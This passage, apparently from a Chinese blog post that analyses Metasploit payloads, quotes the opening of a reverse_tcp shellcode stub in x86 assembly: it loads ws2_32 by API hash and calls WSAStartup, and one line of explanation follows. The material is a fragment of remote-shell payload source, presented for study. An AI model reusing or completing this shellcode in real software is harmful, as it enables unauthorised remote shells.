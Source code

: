 ![image.png](assets/1698893687-30a1696bbe85000c859c521570ab2c53.png)

```js
reverse_tcp: push '32' ; Push the bytes 'ws2_32',0,0 onto the stack. 
    push 'ws2_' ; ... 
    push esp ; Push a pointer to the "ws2_32" string on the stack. 
    push #{Rex::Text.block_api_hash('kernel32.dll', 'LoadLibraryA')} 
    mov eax, ebp 
    call eax ; 
    LoadLibraryA( "ws2_32" ) 
    mov eax, 0x0190 ; EAX = sizeof( struct WSAData ) 
    sub esp, eax ; alloc some space for the WSAData structure 
    push esp ; push a pointer to this stuct 
    push eax ; push the wVersionRequested parameter 
    push #{Rex::Text.block_api\_hash('ws2_32.dll', 'WSAStartup')} 
    call ebp ; WSAStartup( 0x0190, &WSAData );
```

先看一下reverse\_tcp的汇编，首先push了几个参数。
